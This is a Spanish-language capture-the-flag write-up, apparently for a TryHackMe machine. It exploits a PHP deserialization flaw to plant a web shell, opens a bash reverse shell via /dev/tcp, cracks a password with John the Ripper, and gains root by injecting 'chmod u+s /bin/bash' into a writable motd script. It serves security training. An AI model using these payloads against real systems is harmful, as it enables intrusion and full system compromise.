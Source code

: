 ### Tags: `PHP` `deseralation` `motd`

# Escaneo (*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/6807af1d-d607-4c41-a853-05012d700cf5)


# Port 80 **/** gobuster

Como vimos es un web de **apache por defecto** y por ende vamos a tirar un **Gobuster** para descubrir directorios

```ruby
gobuster dir -q -u http://<ip> -w /usr/share/wordlists/dirb/common.txt   
```

Encontramos un `/backup` y un `index.php`

![image](https://github.com/user-attachments/assets/5ca68162-e2c3-41f4-964e-e0491c9f9f22)

El `index.php` tiene esto:

![image](https://github.com/user-attachments/assets/3f770d4f-1b82-4f04-b745-8c2c91f4c278)

En el `/backup` nos descargamos este archivo a nuestra maquina

![image](https://github.com/user-attachments/assets/3b1e038f-721d-4a75-9977-b4272a6567f6)

Vemos que tenemos una pista en este mensaje de este codigo

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```


El código PHP toma el nombre, el correo electrónico y el comentario que se pasan en el GET mediante un formulario en la página. Utiliza esos valores para crear un mensaje que se escribe en el archivo `message.txt`cuando se destruye el objeto y podemos simplemente ingresar un `$_GET['debug']`parámetro de depuración con la entrada serializada y el código fuente lo deserializará.

![image](https://github.com/user-attachments/assets/b74e76db-6d2b-407e-9813-caa50984d355)


Lo que hacemos ahora es crearnos este **archivo.php**

```php
<?php
class FormSubmit{
        public $form_file = 'pawned.php';
        public $message = '<?php system($_GET["cmd"]); ?>';
}
$obj = new FormSubmit();
echo serialize($obj);
?>
```

Ahora lo probamos y nos da el ``objeto serializado`` ---> comando: `php <nombre_del_archivo>`

```php
O:10:"FormSubmit":2:{s:9:"form_file";s:10:"pawned.php";s:7:"message";s:30:"<?php system($_GET["cmd"]); ?>";}
```

- - `O`  significa objeto
- `O:10`  significa la longitud del nombre del objeto (es decir, ---> 10)
- `2:{`  significa que hay dos propiedades/atributos
- `s:9`  significa que nuestra propiedad/atributo es una cadena y tiene una longitud de 9 caracteres
- `s:9:"form_file";`  Longitud de 9 y nombre de la propiedad


### Cyberchef

Nos copiamos el objeto serializado de antes vamos a [CyberChef](https://gchq.github.io/CyberChef/) y  lo URL encodíamos 

![image](https://github.com/user-attachments/assets/3405e0ad-7e9f-4847-9b81-95b22a41b9be)

Ahora en la web ponemos lo que conseguimos anteriormente de la siguiente manera:

```css
http://<IP>/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form%5Ffile%22%3Bs%3A10%3A%22pawned%2Ephp%22%3Bs%3A7%3A%22message%22%3Bs%3A30%3A%22%3C%3Fphp%20system%28%24%5FGET%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D
```

Una ves hecho eso, sino vamos a `http://<IP>/pawned.php?cmd=id`

![image](https://github.com/user-attachments/assets/4cd3f4f0-148b-4abb-8b58-0ad2ac7c98c0)

Nos entablamos una reverse shell --> `bash -c "bash -i >%26 /dev/tcp/<ip>/1234 0>%261"`

![image](https://github.com/user-attachments/assets/e6bb672e-c4e1-4a14-a3f8-58a570a11b90)


# Escalada (`james`)

Encontramos la contraseña de james pero no esta en texto plano, entonces tenemos que romperla

![image](https://github.com/user-attachments/assets/73c89fec-63d0-43cb-8fc3-3b18fb85cc91)

Con `John The Ripper` obtuvimos la contraseña -->  `jamaica`

![image](https://github.com/user-attachments/assets/deda4fcc-8d2d-4f11-8def-d18b1eab7242)
![image](https://github.com/user-attachments/assets/e41b5b59-9653-402b-8e6c-1c531440dc53)


# Escalada **ROOT**

Dentro del directorio de **James** y un archivito `Note-To-James.txt` que dice esto:

```txt
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

La nota básicamente dice que nos dio acceso para modificar todos estos archivos el Mensaje del día ( `motd`).

![image](https://github.com/user-attachments/assets/b3197963-41de-4be7-a9f7-0db7959b18bd)

Como tenemos todos los permisos lo que hacemos es abrirno un archivo y poner:

```bash
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/3ad7b478-ce40-4317-94df-7c61f2b4a65b)

Ahora volvés a entrar a la máquina por **SSH** y ponemos esto:

```bash
ssh@james<IP>
bash -p
```

![image](https://github.com/user-attachments/assets/e989d26f-27bb-40dd-bbfc-ee14005d919b)








